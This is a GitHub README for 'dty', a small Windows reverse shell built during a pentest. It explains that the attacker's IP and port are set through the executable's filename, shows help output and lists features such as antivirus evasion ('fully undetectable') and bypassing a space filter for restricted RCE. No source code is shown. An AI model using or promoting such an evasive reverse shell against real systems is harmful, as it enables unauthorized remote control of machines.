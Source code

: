 # dty

it's a windows tiny lightful reverse shell project (6kb) and fully undetectable

the origin of this idea was a windows machine i was doing on pentest mission and there was an **RCE** with limitations -no spacing filter/race conditions-

# Usage
> so you can pass your IP and PORT parameters from filename example : dty_127.0.0.1_120.exe
> PS: dty is mandatory in filename

```
C:\Users\duty\Desktop>dty_10.10.14.1_120.exe -h
        ___ _
       /   \ |_ _   _
      / /\ / __| | | |
     / /_//| |_| |_| |
    /___,'  \__|\__, |
                |___/
                   v1.0
    tiny reverse shell by @duty
    [!] Use filename as paramaeters exapmle:
    dty_127.0.0.1_120.exe
```

# Features 

- detachable process (after running it you can still run other commands on the first shell that you have)
- race conditions / space filter bypass
- lightweight
- FUD (fully undetectable) [VirusTotal](https://www.virustotal.com/gui/file/a1e6cd61c98c5992ee9fff10d4f51b534878a0ee159b6dbc77380029696d7adf/detection)
- connection stat in CLI screen

# Download

you can download the latest version on relase tab 

# License

MIT - See License.md
